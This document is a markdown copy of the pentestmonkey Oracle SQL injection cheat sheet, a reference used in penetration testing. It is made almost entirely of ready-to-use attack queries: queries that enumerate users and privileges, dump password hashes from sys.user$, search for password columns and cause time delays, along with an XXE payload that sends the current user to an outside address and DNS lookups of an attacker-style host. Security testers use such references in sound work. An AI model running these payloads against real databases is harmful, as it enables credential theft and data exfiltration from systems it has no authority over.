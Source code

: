 # Oracle Injection Cheat Sheet

_source: [http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)_

## Version
```
SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT banner FROM v$version WHERE banner LIKE 'TNS%';
SELECT version FROM v$instance;
```

## Comments
```
SELECT 1 FROM dual — comment
– NB: SELECT statements must have a FROM clause in Oracle so we have to use the dummy table name 'dual' when we're not actually selecting from a table.
```

## Current User
```
SELECT user FROM dual
```

## List Users
```
SELECT username FROM all_users ORDER BY username;
SELECT name FROM sys.user$; — priv
```

## List Password Hashes
```
SELECT name, password, astatus FROM sys.user$ — priv, <= 10g.  astatus tells you if acct is locked
SELECT name,spare4 FROM sys.user$ — priv, 11g
```

## Password Cracker
```
checkpwd will crack the DES-based hashes from Oracle 8, 9 and 10.
```

List Privileges
```
SELECT * FROM session_privs; — current privs
SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP'; — priv, list a user's privs
SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY'; — priv, find users with a particular priv
SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;
```

## List DBA Accounts
```
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES'; — priv, list DBAs, DBA roles
```

## Current Database
```
SELECT global_name FROM global_name;
SELECT name FROM v$database;
SELECT instance_name FROM v$instance;
SELECT SYS.DATABASE_NAME FROM DUAL;
```

## List Databases
```
SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)
– Also query TNS listener for other databases.  See tnscmd (services | status).
```

## List Columns
```
SELECT column_name FROM all_tab_columns WHERE table_name = 'blah';
SELECT column_name FROM all_tab_columns WHERE table_name = 'blah' and owner = 'foo';
```

## List Tables
```
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
```

## Find Tables From Column Name
```
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%'; — NB: table names are upper case
```

## Select Nth Row
```
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1)
```

## Select Nth Char
```
SELECT substr('abcd', 3, 1) FROM dual; — gets 3rd character, 'c'
```

## Bitwise AND
```
SELECT bitand(6,2) FROM dual; — returns 2
SELECT bitand(6,1) FROM dual; — returns0
```

## ASCII Value -> Char
```
SELECT chr(65) FROM dual; — returns A
```

## Char -> ASCII Value
```
SELECT ascii('A') FROM dual; — returns 65
```

## Casting
```
SELECT CAST(1 AS char) FROM dual;
SELECT CAST('1' AS int) FROM dual;
```

## String Concatenation
```
SELECT 'A' || 'B' FROM dual; — returns AB
```

## If Statement
```
BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn't play well with SELECT statements
```

## Case Statement
```
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1
SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2
```

## Avoiding Quotes
```
SELECT chr(65) || chr(66) FROM dual; — returns AB
```

## Time Delay
```
BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can't seem to embed this in a SELECT
SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — if reverse looks are slow
SELECT UTL_INADDR.get_host_address('blah.attacker.com') FROM dual; — if forward lookups are slow
SELECT UTL_HTTP.REQUEST('http://google.com') FROM dual; — if outbound TCP is filtered / slow
– Also see Heavy Queries to create a time delay
```

## Make DNS Requests & HTTP GET
```
SELECT UTL_INADDR.get_host_address('google.com') FROM dual;
SELECT UTL_HTTP.REQUEST('http://google.com') FROM dual;
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://192.168.88.7:8080/'||(select user from dual)||'"> %remote; %param1;]>'),'/l') from dual;
```

## Command Execution
```
Javacan be used to execute commands if it's installed.ExtProc can sometimes be used too, though it normally failed for me. :-(
```

## Local File Access
```
UTL_FILE can sometimes be used.  Check that the following is non-null:
SELECT value FROM v$parameter2 WHERE name = 'utl_file_dir';Java can be used to read and write files if it's installed (it is not available in Oracle Express).
```

## Hostname, IP Address
```
SELECT UTL_INADDR.get_host_name FROM dual;
SELECT host_name FROM v$instance;
SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address
SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — gets hostnames
```

## Location of DB files
```
SELECT name FROM V$DATAFILE;
```

## Default/System Databases
```
SYSTEM
SYSAUX
```